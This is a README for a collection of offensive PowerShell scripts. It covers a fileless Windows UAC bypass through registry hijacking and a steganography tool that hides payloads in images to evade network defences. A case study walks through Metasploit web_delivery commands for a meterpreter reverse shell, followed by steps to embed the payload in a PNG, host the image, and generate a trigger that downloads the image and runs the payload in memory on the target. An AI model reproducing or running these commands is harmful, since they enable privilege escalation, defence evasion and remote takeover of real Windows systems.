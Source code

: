 # Offensive-PowerShell
Collection of powershell scripts to be used during an offensive operation.   

## Set-FilelessBypassUac
Bypass the Windows User Account Control (UAC) with fileless methods.

Based on “Fileless” UAC Bypass Using eventvwr.exe and Registry Hijacking technique from Matt Nelson (@enigma0x3).
https://enigma0x3.net/2016/08/15/fileless-uac-bypass-using-eventvwr-exe-and-registry-hijacking/

### METHODS:

* mscfile - Matt Nelson (@enigma0x3) method using CompMgmtLauncher.exe to replace eventvwr.exe.

    Working on:
    *  Microsoft Windows 7;
    *  Microsoft Windows 8;
    *  Microsoft Windows 8.1;
    *  Microsoft Windows 10 (UNTIL the build 15025.rs2)
    *  Microsoft Windows 2008;
    *  Microsoft Windows 2008 R2;
    *  Microsoft Windows 2016.

* ms-settings - NEW method using ms-settings registry key with DelegateExecute and fodhelper.exe.

    Working on:
    *  Microsoft Windows 10 (tested with successful until the build 15031.rs2)
    *  Microsoft Windows 2016.

## Set-PowerStego
Set-PowerStego allows text or binary files (including payloads developed in powershell and/or PE files) to be inserted into a selected image (BMP or PNG) using the Least Significant Bits (LSB) technique.
It will also be possible to recover the inserted file and in some cases execute it directly in the memory.(Does not touch the disk).

With Set-PowerStego you can bypass Layer 7 security solutions.

###Steps
    1 - Hide a PAYLOAD inside of a image (with a good resolution).
    2 - Store the image on a Webserver that target have access.
    3 - Run the trigger (powershell command line) on the target.
      * The target will download the image to the memory.
      * The payload will be extract on the memory.
      * Powershell payloads will be executed on the memory and PE payloads will be copied to the disk and executed.
    4 - Receive your shell.

### CASE STUDY - Hiding a meterpreter payload inside of image.  
    1 - Open the msfconsole.
    msfconsole

    2 - Select and configure the web_delivery exploit.
    use exploit/multi/script/web_delivery  
    set windows/meterpreter/reverse_https
    set target 2
    set srvport 80
    set uripath /report
    set LHOST <IPADDRESS>
    set LPORT 443
    exploit

    3 - From your Windows machine download the powershell script from web_delivery.
    iwr http://IPFROMMETASPLOITHOST/report -OutFile report.txt

    4 - Open the powershell and import the Set-Powerstego.ps1.
    Import-Module Set-Powerstego.ps1

    5 - Select and analize the properties from a image (BMP or PNG) with a good resolution.
    Set-PowerStego -Method Analyze -ImageSource File -ImageSourcePath <image.png>

    6 - Hide de payload inside the image.
    Set-PowerStego -Method Hide -ImageSource File -ImageSourcePath myimage.png -ImageDestinationPath myimagewithpayload.png -PayloadSource Text -PayloadPath script.ps1

    7 - Copy the image to the METASPLOIT host and start a webserver to be possible access the image.
    cd imagefolder
    pythom -m SimpleHTTPServer 8080

    8 - From the Windows workstation extract the payload to the disk.
    Set-PowerStego -Method UnHide -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath report2

    Open the file report2 and compare with the file report.  

    9 - Generate a command line to execute the payload on the target.
    Set-PowerStego -Method GeneratePayload -ImageSource URL -ImageSourcePath http://<IPFROMMETASPLOITHOST:8080>/myimage.png -PayloadSource Text -PayloadPath myscript.txt

    Execute the content from the file myscript.txt on any Windows workstion with powershell and access to the metasploit host.
    After the execution, it will be download the image to the memory from the target, the payload extration and execution on the memory, and you will receive a meterpreter shell on the Metasploit host.